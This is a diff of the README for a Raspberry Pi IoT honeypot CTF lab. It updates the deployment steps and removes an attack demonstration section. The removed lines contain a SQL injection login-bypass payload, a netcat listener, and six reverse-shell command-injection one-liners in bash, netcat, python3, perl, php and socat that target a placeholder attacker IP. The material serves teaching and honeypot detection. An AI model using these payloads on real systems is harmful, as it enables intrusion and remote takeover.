

Before and after one commit to zyyuy0u/Physic-Flag-CTF, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -123,78 +74,19 @@ Whitelist 啟動時自動建立，包含：
 ## 快速部署
 
 ```bash
-# 1. Clone 專案
+# 1. 啟動宿主機 pigpio 守護行程
+sudo pigpiod
+
+# 2. Clone 專案
 git clone https://github.com/<your-username>/iot-honeypot.git
 cd iot-honeypot
 
-# 2. 啟動所有服務
+# 3. 啟動所有服務
 docker compose up -d
 
-# 3. 初始化資料庫（首次部署需要，等容器完全啟動約 10 秒後執行）
+# 4. 初始化資料庫
 docker exec web-app php /var/www/html/setup_db.php
-
-# 4. 確認服務狀態
-docker compose ps
 ```
-
-部署完成後，蜜罐網站可透過 `http://<Pi_IP>:8080` 存取。
-
-## 攻擊演示流程
-
-### 階段一：路徑探測（觸發 LED1）
-
-```bash
-curl http://<Pi_IP>:8080/admin
-```
-
-### 階段二：SQL Injection（觸發 LED2）
-
-1. 進入登入頁面 `http://<Pi_IP>:8080/admin`
-2. 使用 SQL Injection Payload 登入：
-   - 帳號：`' OR '1'='1' --`
-   - 密碼：任意值
-3. 成功繞過驗證進入 `dashboard.php`，LED2 亮起
-
-### 階段三：Command Injection + Reverse Shell（觸發 LED3）
-
-1. 登入後進入「網路診斷」頁面
-2. 攻擊者先在本機開啟 Listener：
-   ```bash
-   nc -lvnp 4444
-   ```
-3. 在 IP 輸入欄位注入指令，建立 Reverse Shell（以下擇一）：
-
-   **Bash**
-   ```
-   ; bash -i >& /dev/tcp/<攻擊者IP>/4444 0>&1
-   ```
-
-   **Netcat**
-   ```
-   ; nc -c sh <攻擊者IP> 4444
-   ```
-
-   **Python3**
-   ```
-   ; python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<攻擊者IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
-   ```
-
-   **Perl**
-   ```
-   ; perl -e 'use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in(4444,inet_aton("<攻擊者IP>")));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i")'
-   ```
-
-   **PHP**
-   ```
-   ; php -r '$sock=fsockopen("<攻擊者IP>",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
-   ```
-
-   **Socat**
-   ```
-   ; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<攻擊者IP>:4444
-   ```
-
-4. Container 對外建立連線，LED3 亮起
 
 ## 技術棧
 
@@ -202,5 +94,5 @@ curl http://<Pi_IP>:8080/admin
 |------|------|
 | 蜜罐網站 | PHP 8.2、Apache、Bootstrap 5 |
 | 資料庫 | MariaDB 10.6 |
-| 防禦監控 | Python 3.9、RPi.GPIO |
+| 防禦監控 | Python 3.9、RPi.GPIO、**pigpio** |
 | 容器化 | Docker、Docker Compose |
````
Also changed, not shown: other parts of README.md (+39 -99 lines).
